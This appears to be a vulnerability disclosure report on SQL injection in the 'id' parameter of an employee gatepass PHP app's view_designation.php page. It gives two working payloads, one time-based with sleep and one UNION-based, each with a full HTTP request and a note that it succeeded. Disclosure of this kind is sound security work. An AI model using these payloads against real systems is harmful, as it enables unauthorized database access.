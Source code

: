 BUG_Author: ZongXinLi

Vulnerability File: /employee_gatepass/admin/maintenance/view_designation.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from (select(sleep(10)))x) and 'x'='x

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))x)%20and%20%27x%27=%27x HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/4O4NtFd/bug_report/blob/main/sql1.png)

Payload2:id=-1' union all select null,concat(0x35363738,0x65666768),null,null,null,null-- -

```
GET /employee_gatepass/admin/maintenance/view_designation.php?id=-1%27%20union%20all%20select%20null,concat(0x35363738,0x65666768),null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=m9am97ggdd683nbbhr07jedt25
Connection: close
```

union query success

![image](https://github.com/4O4NtFd/bug_report/blob/main/sql2.png)
